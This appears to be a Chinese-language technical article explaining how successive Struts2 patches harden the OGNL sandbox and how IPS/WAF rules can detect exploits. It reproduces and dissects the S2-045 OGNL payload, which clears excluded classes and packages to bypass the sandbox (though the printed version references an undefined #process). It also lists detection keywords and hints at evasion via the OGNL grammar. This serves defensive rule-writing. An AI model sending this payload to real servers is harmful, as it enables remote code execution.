Struts2的每一轮新的漏洞，既包含了新的Ognl代码执行的点，也包含Struts2的沙盒加强防护的绕过，而每一轮补丁除了修复Ognl的执行点，也再次强化沙盒，补丁主要都是通过struts-default.xml限制了ognl使用到的类和包，以及修改各种bean函数的访问控制符。最新版本Struts2.5.20的Struts-default.xml，限制java.lang.Class, java.lang.ClassLoader，java.lang.ProcessBuilder这几个类访问，导致漏洞利用时无法使用构造函数、进程创建函数、类加载器等方式执行代码，限制com.opensymphony.xwork2.ognl这个包的访问，导致漏洞利用时无法访问和修改_member_access，context等变量。

```xml
<!--struts-default.xml-->
...
<constant name="struts.excludedClasses"
           value="
             java.lang.Object,
             java.lang.Runtime,
             java.lang.System,
             java.lang.Class,
             java.lang.ClassLoader,
             java.lang.Shutdown,
             java.lang.ProcessBuilder,
             com.opensymphony.xwork2.ActionContext" />
 
 <!-- this must be valid regex, each '.' in package name must be escaped! -->
 <!-- it's more flexible but slower than simple string comparison -->
 <!-- constant name="struts.excludedPackageNamePatterns" value="^java\.lang\..*,^ognl.*,^(?!javax\.servlet\..+)(javax\..+)" / -->
 
 <!-- this is simpler version of the above used with string comparison -->
 <constant name="struts.excludedPackageNames"
           value="
             ognl.,
             javax.,
             freemarker.core.,
             freemarker.template.,
             freemarker.ext.rhino.,
             sun.reflect.,
             javassist.,
             org.objectweb.asm.,
             com.opensymphony.xwork2.ognl.,
             com.opensymphony.xwork2.security.,
             com.opensymphony.xwork2.util." />
...
```

调试时，可以对`SecurityMemberAccess`的`isAccessible`函数下断点观察ognl的沙盒防护情况。

```java
public boolean isAccessible(Map context, Object target, Member member, String propertyName) {
     LOG.debug("Checking access for [target: {}, member: {}, property: {}]", target, member, propertyName);
     if (this.checkEnumAccess(target, member)) {
         LOG.trace("Allowing access to enum: {}", target);
         return true;
     } else {
         Class targetClass = target.getClass();
         Class memberClass = member.getDeclaringClass();
         if (Modifier.isStatic(member.getModifiers()) && this.allowStaticMethodAccess) {
             LOG.debug("Support for accessing static methods [target: {}, member: {}, property: {}] is deprecated!", target, member, propertyName);
             if (!this.isClassExcluded(member.getDeclaringClass())) {
                 targetClass = member.getDeclaringClass();
             }
         }
   ...
```

### 网络防护设备中对Struts2漏洞的防护思路

一般的ips、waf规则，可以从两个方向进行检测：
- 检测漏洞发生点，
- 检测利用的攻击代码。

Struts2有一些老的漏洞，很多是url中或者post表单中提交ognl代码，从漏洞点来看并不是太好做检测，所以一般的检测规则还是检查ognl代码，配合漏洞发生点。结合payload来看，ognl代码的构成，技术性最强的ognl代码是045和057的两个payload，还是从045的payload来看：

```
content-type: %{(#fuck='multipart/form-data') .(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#req=@org.apache.struts2.ServletActionContext@getRequest()).(#outstr=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#outstr.println(#req.getRealPath("/"))).(#outstr.close()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

`OgnlContext的_memberAccess`变量进行了访问控制限制，决定了哪些类，哪些包，哪些方法可以被ognl表达式所使用。045之前的补丁禁止了_memberAccess的访问，但是payload通过ActionContext对象得到Container:

`#container=#context['com.opensymphony.xwork2.ActionContext.container'])`

接着用Container的getInstance方法获取到ognlUtil实例：

`#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)`

然后通过ognlUtil的公开方法清空禁止访问的类和包。:

```
(#ognlUtil.getExcludedPackageNames().clear()).
(#ognlUtil.getExcludedClasses().clear()).
(#context.setMemberAccess(#dm))
```

最后就是输出流获取和函数调用。

```
(#req=@org.apache.struts2.ServletActionContext@getRequest()).
(#outstr=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).
(#outstr.println(#req.getRealPath("/"))).
(#outstr.close()).
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).
(#ros.flush())
```


这个ognl的payload比较典型，可以检测的点也比较多。

一般来说，IPS或者WAF的Struts2规则可以检测沙盒绕过使用的对象和方法，好的检测点如:
- `_memberaccess`
- `getExcludedPackageNames`
- `getExcludedClasses`
- `DEFAULT_MEMBER_ACCESS`

防护规则也可以检测敏感的函数调用:
- `ServletActionContext@getResponse`获取应答对象;
- `java.lang.ProcessBuilder` 进程构建，执行命令
- `java.lang.Runtime` 运行时类建，执行命令
- `java.io.FileOutputStream` 文件输出流，写shell
- `getParameter`（获取参数）
- `org.apache.commons.io.IOUtils`（IO函数）
- ...

还有些函数调用如果列为检测点，可能比较容易绕过或用户不利，例如：
- `com.opensymphony.xwork2.ActionContext.container` 字典的key或者包的全名，毕竟字符串是可以拼接和变形的，这种规则很容易绕过。其他时候规则提取的字符串尽量短一些，避免变形绕过。

一些 waf产品规则只检测`DEFAULT_MEMBER_ACCESS`和`_memberaccess`这两个字符串之一，看起来很粗暴，有误报风险，不过检测效果还是不错的。

Ognl表达式由于其灵活性，存在一些变形逃逸的，但是S2-016之后的漏洞要绕过沙盒很难避开这两个对象及相关函数调用。绕过可以参考`ognl.jjt`文件，这个文件定义了ognl表达式的词法和语法结构，ognl的相关解析代码也是基于这个文件生成的，所以一般的绕过也可以基于此文件展开。


## References

- https://paper.seebug.org/247/
- https://www.freebuf.com/column/224041.html
- https://www.freebuf.com/vuls/229080.html
- http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities/
- https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html
- https://www.w3cschool.cn/struts_2/struts_examples.html
- https://www.cnblogs.com/cenyu/p/6233942.html
- http://c.biancheng.net/view/4071.html
- https://securitylab.github.com/research/apache-struts-CVE-2018-11776

本文大量内容来自上述文章，致敬，侵删。